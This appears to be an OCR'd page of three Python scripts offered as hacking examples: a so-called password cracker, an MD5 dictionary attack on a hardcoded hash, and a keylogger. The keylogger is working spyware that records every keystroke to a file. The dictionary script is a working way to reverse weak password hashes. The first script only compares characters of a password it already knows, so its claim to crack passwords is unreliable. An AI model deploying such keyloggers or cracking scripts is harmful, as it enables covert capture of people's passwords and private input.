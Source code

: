 1) passworrd cracker
import random

# Character set for brute-force attack
list_of_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

# Generate a random password
password = ""
for _ in range(random.randint(8, 16)):  # Realistic password length
    password += random.choice(list_of_chars)

def solve_password(word):
    attempted_password = ""
    attempts = 0  # Counter to count total attempts

    for character in word:
        for entry in list_of_chars:
            attempts += 1
            if character == entry:
                attempted_password += character
                break  # Move to the next character

    return attempted_password, attempts

# Crack the password
cracked_password, total_attempts = solve_password(password)

# Display results
print("Generated Password: ", password)
print("Cracked Password:   ", cracked_password)
print("Password Match: ", cracked_password == password)
print("Total Attempts: ", total_attempts)


2)password cracking dict
import hashlib

# Hashed password to crack (MD5 of 'password123')
target_hash = "482c811da5d5b4bc6d497ffa98491e38"

# Dictionary list (in memory)
wordlist = ["123456", "password", "letmein", "admin", "password123"]

found = False

for word in wordlist:
    hashed_word = hashlib.md5(word.encode()).hexdigest()
    
    if hashed_word == target_hash:
        print(f"[✔] Password found: {word}")
        found = True
        break

if not found:
    print("[✘] Password not found in the wordlist.")


3)keyloger
from pynput.keyboard import Listener

# Function to handle key presses
def on_press(key):
    try:
        # Check if the key is a regular character or a number
        if hasattr(key, 'char') and key.char is not None:
            with open("keylog.txt", "a") as log_file:
                log_file.write(key.char)
                print(key.char) 
        else:
            # Handle special keys
            with open("keylog.txt", "a") as log_file:
                log_file.write(f"[{key}]")  # Write special keys like enter, shift, etc.
    except Exception as e:
        print("Error:", e)

# Setting up the listener
with Listener(on_press=on_press) as listener:
    listener.join()
    
